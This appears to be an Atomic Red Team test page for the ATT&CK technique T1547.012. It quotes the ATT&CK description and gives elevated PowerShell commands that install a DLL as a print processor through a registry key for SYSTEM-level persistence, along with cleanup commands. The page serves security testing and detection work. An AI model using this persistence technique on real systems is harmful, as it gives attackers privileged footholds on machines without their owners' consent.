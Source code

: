 # T1547.012 - Boot or Logon Autostart Execution: Print Processors
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/012)
<blockquote>Adversaries may abuse print processors to run malicious DLLs during system boot for persistence and/or privilege escalation. Print processors are DLLs that are loaded by the print spooler service, spoolsv.exe, during boot. 

Adversaries may abuse the print spooler service by adding print processors that load malicious DLLs at startup. A print processor can be installed through the <code>AddPrintProcessor</code> API call with an account that has <code>SeLoadDriverPrivilege</code> enabled. Alternatively, a print processor can be registered to the print spooler service by adding the <code>HKLM\SYSTEM\\[CurrentControlSet or ControlSet001]\Control\Print\Environments\\[Windows architecture: e.g., Windows x64]\Print Processors\\[user defined]\Driver</code> Registry key that points to the DLL. For the print processor to be correctly installed, it must be located in the system print-processor directory that can be found with the <code>GetPrintProcessorDirectory</code> API call.(Citation: Microsoft AddPrintProcessor May 2018) After the print processors are installed, the print spooler service, which starts during boot, must be restarted in order for them to run.(Citation: ESET PipeMon May 2020) The print spooler service runs under SYSTEM level permissions, therefore print processors installed by an adversary may run under elevated privileges.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Print Processors](#atomic-test-1---print-processors)


<br/>

## Atomic Test #1 - Print Processors
Establishes persistence by creating a new print processor registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors.
The new print processor will point to a DLL which will be loaded by the spooler service after a reboot. The DLL will then create the file AtomicTest.txt in C:\Users\Public\ as validation that the test is successful.

Note: The test assumes a x64 Windows operating system.

The payload source code is based on a blog post by stmxcsr: [https://stmxcsr.com/persistence/print-processor.html](https://stmxcsr.com/persistence/print-processor.html)

**Supported Platforms:** Windows


**auto_generated_guid:** f7d38f47-c61b-47cc-a59d-fc0368f47ed0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| restart | set to 1 if you want the computer to reboot as part of the test | integer | 0|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if( $(get-service -Name spooler).StartType -eq "Disabled") {Set-Service -Name "spooler" -StartupType Automatic}
net stop spooler
Copy-Item "$PathToAtomicsFolder\T1547.012\bin\AtomicTest.dll" C:\Windows\System32\spool\prtprocs\x64\AtomicTest.dll
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\AtomicRedTeam" /v "Driver" /d "AtomicTest.dll" /t REG_SZ /f
net start spooler
if(#{restart}){
  Restart-Computer
}
```

#### Cleanup Commands:
```powershell
net stop spooler
rm -force C:\Windows\System32\spool\prtprocs\x64\AtomicTest.dll -ErrorAction SilentlyContinue
rm -force C:\Users\Public\AtomicTest.txt -ErrorAction SilentlyContinue
remove-item "HKLM:\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\AtomicRedTeam" -Force -ErrorAction SilentlyContinue
net start spooler
```





<br/>
